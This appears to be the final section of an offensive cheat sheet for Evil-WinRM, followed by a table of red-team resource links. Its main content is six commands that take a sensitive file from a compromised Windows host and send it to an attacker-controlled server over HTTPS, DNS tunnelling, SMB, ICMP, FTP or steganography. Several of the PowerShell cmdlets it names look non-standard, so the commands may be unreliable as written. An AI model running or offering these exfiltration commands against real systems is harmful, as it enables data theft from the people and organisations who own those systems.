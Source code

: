#### Data Exfiltration

1. **Exfiltrating Data via HTTPS**: Exfiltrates sensitive data from the target system to an attacker's HTTPS server.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Invoke-WebRequest -Uri 'https://<attacker_ip>/data' -Method POST -Body (Get-Content C:\sensitive_data.txt)"
    ```
2. **Using DNS Tunneling for Data Exfiltration**: Exfiltrates data using DNS tunneling, which is often less detectable by network security devices.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Invoke-DNSTunnelExfil -Data (Get-Content C:\sensitive_data.txt) -Domain 'attacker.com'"
    ```
3. **Exfiltrating Data to a Remote SMB Share**: Copies sensitive data to an attacker-controlled SMB share.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Copy-Item C:\sensitive_data.txt \\<attacker_ip>\share\sensitive_data.txt"
    ```
4. **Encoding and Exfiltrating Data via ICMP**: Encodes and exfiltrates data using ICMP echo requests.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Invoke-ICMPExfil -FilePath C:\sensitive_data.txt -TargetIP <attacker_ip>"
    ```
5. **Encrypting and Exfiltrating Data via FTP**: Encrypts sensitive data and exfiltrates it to an attacker-controlled FTP server.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Invoke-FTPExfil -FilePath C:\sensitive_data.txt -Server <attacker_ip> -Username attacker -Password password123"
    ```
6. **Steganographic Data Exfiltration**: Hides sensitive data within an image file using steganography before exfiltrating it.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Invoke-Steganography -FilePath C:\sensitive_data.txt -CoverImage C:\image.jpg -OutputImage C:\exfil.jpg"
    ```

# Resources

|**Name**|**URL**|
|---|---|
|Evil-WinRM GitHub Repository|https://github.com/Hackplayers/evil-winrm|
|Evil-WinRM Documentation|https://github.com/Hackplayers/evil-winrm/wiki|
|PowerSploit Documentation|https://github.com/PowerShellMafia/PowerSploit|
|Mimikatz Documentation|https://github.com/gentilkiwi/mimikatz|
|Red Teaming with Evil-WinRM|https://pentestlab.blog/2019/09/23/evil-winrm/|
|Post-Exploitation with PowerShell|https://www.offensive-security.com/metasploit-unleashed/post-exploitation-powershell/|
|Data Exfiltration Techniques|https://www.fireeye.com/blog/threat-research/2019/01/exfiltration-over-alternate-protocols.html|
|Pass-the-Hash Attacks|https://attack.mitre.org/techniques/T1550/002/|
|Kerberos Attacks|https://adsecurity.org/?page_id=1821|
|Privilege Escalation in Windows|https://pentestlab.blog/2017/04/19/windows-privilege-escalation/|
|Windows Persistence Techniques|https://ired.team/offensive-security/persistence|
